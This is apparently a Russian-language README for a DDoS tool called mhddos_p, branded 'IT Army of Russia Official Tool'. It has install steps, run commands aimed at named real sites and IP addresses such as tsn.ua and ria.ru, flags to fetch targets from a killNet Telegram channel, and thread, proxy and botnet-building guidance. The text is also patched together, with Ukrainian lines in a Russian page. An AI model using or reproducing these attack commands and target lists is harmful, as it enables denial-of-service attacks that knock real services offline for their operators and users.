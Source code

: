 ## IT Army of Russia Official Tool 

### [English Version](/README-EN.md)

- Встроенная база прокси с огромным количеством IP по всему миру
- возможность задавать много целей с автоматической балансировкой нагрузки
- множество разнообразных методов
- эффективное использование ресурсов благодаря ассихронной архитектуре

### ⏱ Последние обновления
  
Обновление версии для Windows | Mac | Linux | Android | Docker: [ссылка](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/ph_Onovlennya-mhddos-proxy-04-16.md)  

- **24.05.2022** Добавлена ​​возможность запуска с автоматическим обновлением. пункт [Запуск](#2--запуск-различные-варианты-целей)
- **21.05.2022** Добавлена ​​английская локализация - параметр `--lang EN` (в будущем могут быть добавлены другие языки)
- **18.05.2022** Добавлены настройки `--copies` для запуска нескольких копий (рекомендуется использовать при наличии 4+ CPU и сети > 100 Mb/s).
- **15.05.2022** Полностью обновленная, асинхронная версия, обеспечивающая максимальную эффективность и минимальную нагрузку на систему

### 1. 💽 Встановлення

#### Расширенные инструкции - [нажмите здесь](/docs/installation.md) 

#### Python (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

Требуется python >= 3.8 и git

    git clone https://github.com/BionecX/mhddos_p.git
    cd mhddos_p
    python3 -m pip install -r requirements.txt

#### Docker

Установите и запустите Docker: https://docs.docker.com/desktop/#download-and-install

### 2. 🕹 Запуск (приведены разные варианты целей)

#### Python с автоматическим обновлением (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

    ./runner.sh python3 https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Python (требует обновления вручную) (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

    python3 runner.py https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Docker (для Linux добавляйте sudo в начале команды)

    docker run -it --rm --pull always ghcr.io/BionecX/mhddos_p https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

### 3. 🛠 Настройки (больше в разделе [CLI](#cli))

Все параметры можно комбинировать, можно указывать и до и после перечня целей

- Чтобы добавить ваш IP/VPN в атаку (особенно актуально для выделенных серверов), добавьте параметр `--vpn`
- Чтобы выбрать цели от https://t.me/killNet, добавьте параметр `--itarmy`
- Количество потоков: `-t XXXX` – по умолчанию 7500 (или 1000 если на машине только 1 CPU)
- Запуск нескольких копий: `--copies X`, при наличии 4+ CPU и сети > 100 Mb/s

### 4. 📌 Помочь в поиске новых прокси для mhddos_p
Сам скрипт та інструкції по встановленню тут: https://github.com/BionecX/proxy_finder

### 5. 🐳 Комьюнити
- [Создание ботнета из 30+ бесплатных и автономных (работают даже при выключенном ПК) Linux-серверов](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5cсс)
- [Подробный разбор mhddos_p и инструкции по установке](docs/installation.md)
- [Анализ средства mhddos_p](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-0111)
- [Пример запуска через docker на OpenWRT](https://youtu.be/MlL6fuDcWlIII)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b5444)
- [Docker-image](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/dockerrr), который запускает одновременно mhddos_p и [proxy_finder](https://github.com/BionecX/proxy_finder) (для Linux / Mac добавьте sudo в начале):

### 6. CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space / Список целей, разделенных пробелом
    
    optional arguments:
      -h, --help             show this help message and exit / показать это справочное сообщение и выйти
      -c, --config URL|path  URL or local path to file with targets list / URL или локальный путь к файлу со списком целей
      -t, --threads 7500     Number of threads (default is 7500 if CPU > 1, 1000 otherwise) / Количество потоков (по умолчанию 7500, если ЦП > 1, 1000 в противном случае)
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%) / Используйте как мой IP, так и прокси. По желанию укажите процент использования моего IP (по умолчанию 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use / URL-адрес или локальный путь (например, proxy.txt) к файлу с используемыми прокси-серверами.
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS). / Список методов HTTP(L7) для использования (по умолчанию GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/killNet / Атакуйте цели с https://t.me/killNet 
      --debug                Detailed log for each target / Подробный журнал для каждой цели
      --copies 1             Number of copies to run (default is 1) / Количество копий для запуска (по умолчанию 1)
      --lang {en,ru}         Select language (default is ru) / Выберите язык (по умолчанию ru)

### 7. Собственные прокси

#### Формат файла (любой по выбору):

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

где `protocol` может быть одним из 3-х: `http`|`socks4`|`socks5`, если `protocol` не указывать, то будет выбрано `http`
например для публичного прокси `socks4` формат будет следующим:

    socks4://114.231.123.38:3065

а для частного `socks4` формат может быть одним из следующих:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065
  
**URL - Удаленный файл для Python и Docker**

    --proxies https://pastebin.com/raw/UkFWzLOt

где https://pastebin.com/raw/UkFWzLOt – ваша веб-страница со списком прокси (каждый прокси из новой строки) 
  
**path - Путь до локального файлу, для Python**
  
Положите файл в папку из `runner.py` и добавьте в команду следующий параметр (замените `proxies.txt` на имя своего файла)

    --proxies proxies.txt https://ria.ru

где `proxies.txt` - ваш файл со списком прокси (каждый прокси из новой строки)
